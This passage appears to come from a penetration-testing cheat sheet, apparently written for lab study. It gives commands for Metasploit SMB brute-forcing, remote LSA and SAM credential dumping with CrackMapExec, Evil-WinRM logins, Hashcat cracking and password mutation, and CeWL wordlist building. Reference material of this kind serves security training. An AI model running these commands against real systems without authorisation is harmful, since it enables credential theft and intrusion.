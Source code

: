 - Show Sessions
```bash
sessions
```
- Interact with a Session
```bash
sessions -i [no.]
```
- Bruteforce SMB Login
```bash
use auxiliary/scanner/smb/smb_login
```
#### [Example of SMB Bruteforce](/Examples/Example_Bruteforcing_Msfconsole.md)

---
## [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec)
- Usage
```bash
crackmapexec <protocol> <target-IP> -u <user or userlist> -p <password or passwordlist>
```
- View Available SMB shares and what privilages an account have
```bash
crackmapexec smb <target-IP> -u "user" -p "password" --shares
```

#### [Example output](/Examples/Example_Crackmapexec_smbShares.md)

- Dump and crack LSA Secrets Remotely
```bash
crackmapexec smb <ip> --local-auth -u <user> -p <password> --lsa
```
- Dump and crack SAM Remotely
```bash
crackmapexec smb <ip> --local-auth -u <user> -p <password> --sam
```
---
## [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)
- Usage
```bash
evil-winrm -i <target-IP> -u <username> -p <password>
```
## Hashcat
- Crack Hash
```bash
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```
- Mutate a password using a custom rule.
```bash
hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
```
- Where to find existing rules
```bash
ls /usr/share/hashcat/rules/
```
---
## [CeWL](https://github.com/digininja/CeWL)
Scans potential words from the company's website and save them in a separate list.
```bash
cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist
```

---
